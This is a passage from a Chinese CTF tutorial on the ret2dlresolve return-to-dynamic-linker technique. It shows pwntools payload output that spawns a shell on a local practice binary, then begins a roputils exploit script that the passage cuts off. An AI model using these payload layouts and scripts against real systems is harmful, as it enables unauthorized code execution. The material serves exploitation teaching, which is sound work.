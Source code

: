 需要注意的是，这里我'/bin/sh'的偏移我修改为了82，这是因为pwntools中它会自动帮你对齐字符串。。。下面这一行说明了问题。

```
0x0050:           'aara'
```

效果如下

```shell
➜  ret2dlresolve git:(master) ✗ python stage6.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 130415
[*] Loaded cached gadgets for './main'
0x0000:        0x8048380
0x0004:           0x2528
0x0008:           'bbbb' 'bbbb'
0x000c:        0x804a892
0x0010:           'bbbb' 'bbbb'
0x0014:           'bbbb' 'bbbb'
0x0018: '\x1c\xa0\x04\x08' '\x1c\xa0\x04\x08\x07i\x02\x00'
0x001c:  '\x07i\x02\x00'
0x0020:           'aaaa' 'aaaaaaaa'
0x0024:           'aaaa'
0x0028:  '\x00&\x00\x00' '\x00&\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00'
0x002c: '\x00\x00\x00\x00'
0x0030: '\x00\x00\x00\x00'
0x0034: '\x12\x00\x00\x00'
0x0038:           'syst' 'system\x00'
0x003c:        'em\x00o'
0x0040:             'aa'
0x0044:           'aaaa' 'aaaaaaaaaaaaaa'
0x0048:           'aaaa'
0x004c:           'aaaa'
0x0050:           'aara'
82
[*] Switching to interactive mode
/bin/sh: 1: xa: not found
$ ls
core  main.c     stage2.py  stage4.py  stage6.py
main  stage1.py  stage3.py  stage5.py
```

#### roputils 工具攻击

根据上面的介绍，我们应该很容易可以理解这个攻击了。下面我们直接使用roputil来进行攻击。代码如下

```python
from roputils import *
from pwn import process
from pwn import gdb
from pwn import context
r = process('./main')
context.log_level = 'debug'
r.recv()

rop = ROP('./main')
offset = 112
bss_base = rop.section('.bss')
buf = rop.fill(offset)

buf += rop.call('read', 0, bss_base, 100)
## used to call dl_Resolve()
```